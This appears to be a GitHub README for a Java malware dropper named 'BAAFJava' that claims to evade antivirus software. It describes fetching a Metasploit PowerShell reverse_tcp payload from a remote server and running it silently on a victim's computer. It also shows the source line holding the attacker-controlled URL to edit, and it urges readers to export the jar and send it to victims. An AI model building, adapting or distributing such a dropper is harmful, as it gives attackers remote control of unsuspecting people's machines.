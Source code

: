 # BAAFJava
Bypass Any Antivirus Firewall
Metasploit powershell exec in java, bypass any antivirus. 

Bypass any anti-virus with powershell payload,
this shit get the txt uploaded powershell and insta-execute on the victim pc,

	-> u can create the powershell reverse_tcp payload script on the metasploit framework
	windows/meterpreter/powershell_reverse_tcp.txt 
	 Script dont open the cmd console
	 Created by Gabriell H. Foda-se Use por sua responsabilidade!
	 ______________________________________________________________________________
	 
	private static final String HTTP = "http://xxx.xxx.xx.xx.xx:8080/xxx.txt";
                              You need to change this url /\ /\ /\
	
And export jar file and send it. Be fun.
	
